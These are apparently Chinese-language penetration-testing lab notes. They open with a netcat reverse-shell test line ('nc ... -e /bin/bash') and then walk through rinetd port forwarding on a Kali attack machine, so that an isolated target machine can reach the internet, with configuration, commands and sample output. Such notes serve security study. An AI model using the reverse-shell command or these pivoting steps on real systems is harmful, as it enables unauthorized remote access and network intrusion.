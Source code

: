 测试
```
nc 127.0.0.1 8000 -e /bin/bash
```


# linux

## 端口转发

### RINETD

作用：隔绝网络的靶机可以通过kali攻击机的转发访问到外部网络

1. kali设置：

2. 下载安装rinetd
```sudo apt update && sudo apt install rinetd```


3. 编辑配置文件
```
kali@kali:~$ cat /etc/rinetd.conf 
...
# bindadress    bindport  connectaddress  connectport
0.0.0.0 80 216.58.207.142 80
...
```

4. 重启服务
```
sudo service rinetd restart
```

5. 查看服务是否开启
```
ss -antp | grep "80"
```


6. 验证（从靶机访问我们kali的ip）
```
student@debian:~$ nc -nvv 10.11.0.4 80
(UNKNOWN) [10.11.0.4] 80 (http) open
GET / HTTP/1.0

HTTP/1.0 200 OK
Date: Mon, 26 Aug 2019 15:46:18 GMT
Expires: -1
Cache-Control: private, max-age=0
Content-Type: text/html; charset=ISO-8859-1
P3P: CP="This is not a P3P policy! See g.co/p3phelp for more info."
Server: gws
X-XSS-Protection: 0
X-Frame-Options: SAMEORIGIN
Set-Cookie: 1P_JAR=2019-08-26-15; expires=Wed, 25-Sep-2019 15:46:18 GMT; path=/; domain=.google.com
Set-Cookie: NID=188=Hdg-h4aalehFQUxAOvnI87Mtwcq80i07nQqBUfUwDWoXRcqf43KYuCoBEBGmOFmyu0kXyWZCiHj0egWCfCxdote0ScMX6ArouU2jF4DZeeFHBhqZCvLJDV3ysgPzerRkk9pcLi7HEnbeeEn5xR9BgWfz4jvZkjnzYDwlfoL2ivk; expires=Tue, 25-Feb-2020 15:46:18 GMT; path=/; domain=.google.com; HttpOnly
...
```

已经可以通过kali访问到外部网络（这里是谷歌）

```